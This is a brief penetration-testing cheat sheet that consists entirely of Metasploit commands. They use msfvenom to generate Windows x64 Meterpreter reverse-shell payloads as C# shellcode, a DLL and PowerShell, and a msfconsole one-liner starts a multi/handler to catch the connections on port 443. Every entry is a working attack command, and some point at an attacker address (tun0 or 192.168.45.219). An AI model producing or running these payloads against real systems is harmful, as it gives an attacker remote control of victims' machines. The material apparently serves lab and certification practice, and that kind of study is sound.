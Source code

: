 # Msfvenom

* C Sharp Meterpreter Shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
```

* Metasploit's Exploit Handler (One-liner)

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```



<details>

<summary>Other Shellcode</summary>

* DLL

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.219 LPORT=443 EXITFUNC=thread -f dll -o met.dll
```

* Powershell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
```

</details>

